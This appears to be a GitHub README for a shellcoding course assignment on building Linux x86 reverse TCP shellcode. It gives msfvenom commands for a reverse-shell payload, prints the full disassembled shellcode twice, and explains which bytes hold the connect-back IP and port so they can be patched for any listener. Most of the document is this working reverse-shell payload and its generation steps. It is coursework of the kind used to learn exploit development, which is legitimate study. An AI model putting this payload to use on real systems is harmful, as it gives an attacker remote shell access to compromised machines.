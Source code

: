 # Assignment 2

## What to do 

• Create a Shell_Reverse_TCP shellcode 
   
    – Reverse connects to configured IP and Port 
   
    – Execs shell on successful connection 

• IP and Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_reverse_shell from Metasploit.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A80101        push dword 0x101a8c0
      0000001D  68020022B8        push dword 0xb8220002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

Once we have it, we need to find the place where the IP and the PORT are injected. We locate it by changing the LHOST and LPORT variables when running metasploit and comparing both outputs.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.123 LPORT=8999 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A8017B        push dword 0x7b01a8c0
      0000001D  6802002327        push dword 0x27230002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

We can see that the position where the code is different is 

      00000018  68C0A80101        push dword 0x101a8c0 (101a8c0 is 192.168.1.1)
      0000001D  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000018  68C0A8017B        push dword 0x7b01a8c0 (7b01a8c0 is 192.168.1.123)
      0000001D  6802002327        push dword 0x27230002 (2723 in litte endian is 2327 which is 8999 in decimal)

So, we only need to modify these twolines  every time we want to change the listening port. 

To do that easily, you can use compile_reverse_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

The steps that follows the shell before it starts to listen are showed here:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%201/reverse.png)
